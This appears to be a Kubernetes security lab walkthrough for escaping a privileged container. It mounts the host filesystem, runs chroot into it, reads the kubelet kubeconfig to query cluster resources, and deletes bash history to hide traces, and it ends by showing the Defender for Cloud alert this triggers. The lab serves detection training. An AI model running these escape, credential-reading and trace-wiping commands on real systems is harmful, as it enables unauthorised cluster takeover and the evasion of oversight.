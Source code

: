 The goal of this scenario is to escape out of the running docker container on the host system using the available misconfigurations. 

The secondary goal is to use the host system-level access to gain other resources access and if possible even go beyond this container, node, and cluster-level access

After performing the analysis, you can identify that this container has full privileges of the host system and allows privilege escalation. As well as /host-system is mounted

## Pod to use in this lab: system-monitor
## Misconfiguration: Sensitive Mount, the full host system / volume is mounted in the pod, in /host-system

```
capsh --print
```

```
mount
```

Now you can explore the mounted file system by navigating to the /host-system path

```
ls /host-system/
```

Escape to the node, gainining access to the host system privileges using chroot. We also launch bash from this command

```
chroot /host-system bash
```

The Kubernetes node configuration can be found at the default path, which is used by the node level kubelet to talk to the Kubernetes API Server. If you can use this configuration, you gain the same privileges as the Kubernetes node.

```
cat /var/lib/kubelet/kubeconfig
```

Using the kubelet configuration to list the Kubernetes cluster-wide resources

```
kubectl --kubeconfig /var/lib/kubelet/kubeconfig get all -n kube-system
```

You are able to obtain the available nodes in the Kubernetes cluster by running the following command:

```
kubectl --kubeconfig /var/lib/kubelet/kubeconfig get nodes
```

We could also start SSH server to allow remote access

And finally, remove your traces by deleting bash history

```
rm -rf ~/.bash_history
```


Very soon you will see an alert showing up on the Defender for Cloud console similar to this


![container-escape-alert](/images/container-escape-alert.PNG)

